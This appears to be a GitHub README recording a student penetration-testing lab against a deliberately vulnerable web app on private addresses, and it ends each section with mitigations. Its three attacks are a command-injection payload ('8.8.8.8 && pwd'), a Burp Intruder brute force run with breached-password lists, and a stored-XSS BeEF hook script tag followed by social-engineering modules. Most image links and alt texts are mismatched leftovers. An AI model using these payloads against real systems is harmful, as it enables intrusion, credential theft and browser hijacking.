 
<p align="center">
<img src="https://github.com/kleeloy/Pen-Testing-Web-Application-Vulnerabilities/blob/main/Diagrams/app-hardening-banner.jpg" alt="osTicket logo"/>
</p>

<h1>Web Application Vulnerabilities</h1>
This tutorial outlines an application security engineer at Replicants, testing web vulnerabiltiies on new web applications created.<br />


<h2>Environments and Technologies Used</h2>

- Oracle VM (Virtual box)
- Vagrant

<h2>List of Prerequisites</h2>

- Dot dot slash attacks
- Web application vulnerability assessments
- Injection
- Brute force attacks
- Broken authentication
- Burp Suite
-Web proxies
-Directory traversal
-Beef
-Cross-site scripting
-Malicious payloads

<h2>Installation Steps</h2>
<h3>"Your wish is my command"</h3>

<p>
<img src="https://github.com/kleeloy/Pen-Testing-Web-Application-Vulnerabilities/blob/main/Diagrams/Web-app-1.png" height="40%" width="40%" alt="Disk Sanitization Steps"/>
</p>

First navigated to a new web application built by replicants, (http://192.168.13.25/vulnerabilities/exec/). This new page was built by Replicants in order to enable their customers to `ping` an IP address. The web page will return the results of the ping command back to the user. I started by testing the webpage by entering the IP address `8.8.8.`. Behind the scenes, when submitted, the IP you type in the field is injected into a command that runs aganist the Replicants webserver. 


<p>
<img src="https://github.com/kleeloy/osticket-prereqs/blob/main/Diagrams/Enable%20ISS%20(Lab%203).png" height="60%" width="60%" alt="Disk Sanitization Steps"/>
</p>

Next, I tested if I could manipulate the input to cause an unientended result by entering the following command (payload) in the field: `8.8.8.8 && pwd`. With the results determining that the new application is vulnerable. 

<p>
<img src="https://github.com/kleeloy/osticket-prereqs/blob/main/Diagrams/Enable%20ISS%20(Lab%203).png" height="60%" width="60%" alt="Disk Sanitization Steps"/>
</p>
<p>
<img src="https://github.com/kleeloy/osticket-prereqs/blob/main/Diagrams/Web%20Platform%20install%20(lab%203).png" height="60%" width="60%" alt="Disk Sanitization Steps"/>
</p>

I was tasked with using the dot-dot-slash method to design two payloads that will display the contents on the following files: `/etc/passwd` `/etc/hosts` Based on my findings I recommended that segregation of confidential files from the web server and accessible directories, permissions to restrict web server account accessibility, and server-side validation that does not allow selection of unintended files. 

<h3>"A Brute Force To Be Recokoned With"</h3>

<p>
<img src="https://github.com/kleeloy/osticket-prereqs/blob/main/Diagrams/Web%20Platform%20install%20(lab%203).png" height="60%" width="60%" alt="Disk Sanitization Steps"/>
</p>

Still on Vagrant, navigated to the webpage http://192.168.13.35/ba_insecure_login_1.php. This page is an administrative web application that serves as a simple login page.

<p>
<img src="https://github.com/kleeloy/osticket-prereqs/blob/main/Diagrams/My%20SQl%20setup%20Typical%20(lab%203).png" height="60%" width="60%" alt="Disk Sanitization Steps"/>
</p>

In Vagrant command line, ran command `sudo burpsuite`. OPen firefoc with `foxyProxy`. 

<p>
<img src="https://github.com/kleeloy/osticket-prereqs/blob/main/Diagrams/configuring%20the%20osticket%20php%20manager%20(lab%203).png" height="60%" width="60%" alt="Disk Sanitization Steps"/>
</p>

Using the web application tool 'BurpSuite', the following data was intercepted:

```
REQUEST TO http://192.168.13.35:80
```
```
POST /ba_insecure_login_1.php HTTP/1.1
Host: 192.168.13.35
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Connection: close
Referer: http://192.168.13.35/ba_insecure_login_1.php
Cookie: PHPSESSID=l998k837fiaj3b5c1o8kcsf0m6; security_level=0
Upgrade-Insecure-Requests: 1

login=test-user&password=password&form=submit
```

<p>
<img src="https://github.com/kleeloy/osticket-prereqs/blob/main/Diagrams/configuring%20the%20osticket%20php%20manager%20(lab%203).png" height="60%" width="60%" alt="Disk Sanitization Steps"/>
</p>

I sent the proxy intercept results to the intruder tab and verified the `target` 

<p>
<img src="https://github.com/kleeloy/osticket-prereqs/blob/main/Diagrams/configuring%20the%20osticket%20php%20manager%20(lab%203).png" height="60%" width="60%" alt="Disk Sanitization Steps"/>
</p>

Went to the positions tab within intruder, and selected attack type `cluster bomb`. Configured and added `login` and `password` as positions. 

<p>
<img src="https://github.com/kleeloy/osticket-prereqs/blob/main/Diagrams/configuring%20the%20osticket%20php%20manager%20(lab%203).png" height="60%" width="60%" alt="Disk Sanitization Steps"/>
</p>

Went to the `payloads` tab, `payload` type set as `simple list`. Added the login user ID from `List of Administrators` file into payload set 1. Added passwords from `Breached list of passwords` file into payload set 2.

<p>
<img src="https://github.com/kleeloy/osticket-prereqs/blob/main/Diagrams/configuring%20the%20osticket%20php%20manager%20(lab%203).png" height="60%" width="60%" alt="Disk Sanitization Steps"/>
</p>

Started the attack. After analysis of intruder attack results, the login username/password combination of `Tonystark` and `IamironMan` did result in a successful login. I recommended mitigations including requiring complex usernames and passwords, using multi-factored authentication, and enable a lockout after a certain amount of failed login attempts. 

<h3>"Where's the BeEF"</h3>

<p>
<img src="https://github.com/kleeloy/osticket-prereqs/blob/main/Diagrams/configuring%20the%20osticket%20php%20manager%20(lab%203).png" height="60%" width="60%" alt="Disk Sanitization Steps"/>
</p>

To prepare Replicants website, I navigated to Vagrant, ran command: `~/Documents/web-vulns$ docker-compose up`. Went to `http://192.168.13.25/vulnerabilities/xss_s/` Reset and logged back in. To setup BeEF, on Vagrant open the command line and entered: `sudo beef`. To access the BeEF GUI, right-click the first URL `UI_URL: http://127.0.0.1:3000/ui/panel` and select open link. Logged in with the following credentials: Username: `beef` password: `feeb`.

```
BeEF hook: http://127.0.0.1:3000/hook.js
Playload: <script src="http://127.0.0.1:3000/hook.js"></script>
```

I injected this payload and an issue that was found was there is only a max length= "50" in orginal source code, therefore we can not input the whole payload code, so by right-clicking on the web page and selecting "inspecting the element". Chaged the maxlength="100".

<p>
<img src="https://github.com/kleeloy/osticket-prereqs/blob/main/Diagrams/configuring%20the%20osticket%20php%20manager%20(lab%203).png" height="60%" width="60%" alt="Disk Sanitization Steps"/>
</p>
<p>
<img src="https://github.com/kleeloy/osticket-prereqs/blob/main/Diagrams/configuring%20the%20osticket%20php%20manager%20(lab%203).png" height="60%" width="60%" alt="Disk Sanitization Steps"/>
</p>

Since I hooked into the Replicants website, I attempted a couple of BeEF exploits from `social engineering >> pretty theft`, `social engineering>> fake notification bar`, `host>> get geolocation(third party)`. I recomment input validation. It is a common method used to mitigate cross-site scripting. 

<p>
<img src="https://github.com/kleeloy/osticket-prereqs/blob/main/Diagrams/configuring%20the%20osticket%20php%20manager%20(lab%203).png" height="60%" width="60%" alt="Disk Sanitization Steps"/>
</p>
<p>
<img src="https://github.com/kleeloy/osticket-prereqs/blob/main/Diagrams/configuring%20the%20osticket%20php%20manager%20(lab%203).png" height="60%" width="60%" alt="Disk Sanitization Steps"/>
</p>
<p>
<img src="https://github.com/kleeloy/osticket-prereqs/blob/main/Diagrams/configuring%20the%20osticket%20php%20manager%20(lab%203).png" height="60%" width="60%" alt="Disk Sanitization Steps"/>
</p>



